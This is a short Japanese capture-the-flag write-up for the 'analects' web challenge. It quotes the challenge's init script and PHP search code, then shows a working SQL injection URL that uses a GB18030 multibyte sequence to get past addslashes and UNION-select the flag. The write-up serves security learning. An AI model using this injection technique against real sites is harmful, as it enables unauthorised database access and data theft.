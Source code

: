 # analects

initファイルを見ているとflagがflagテーブルに流されることがわかる

```sh
#!/bin/bash

cd /docker-entrypoint-initdb.d

if [ -f flag.txt ]; then
  read flag < flag.txt
  mysql -u root -p"$MYSQL_ROOT_PASSWORD" analects -e "UPDATE flag SET flag='$flag';"
fi
```

ソースコードを見るとSQLi出来そうな箇所が見つかる
```php
$query = addslashes($_GET["q"]);
$sql = "SELECT * FROM analects WHERE chinese LIKE '%{$query}%' OR english LIKE '%{$query}%'";
$result = $db->query($sql);
```
しかしaddslashes関数が入っているため処理が必要そう

どうやら文字コードがGB18030らしく、addslashesをすり抜けることができる

%bf%5c'でシングルクオートをバイパス、その後unionでクエリを書いて%23で#?コメントアウトしておしまい

`https://analects.tjc.tf/search.php?q=%61%bf%5c'union select 1,1,1,1,1,flag from flag%23`
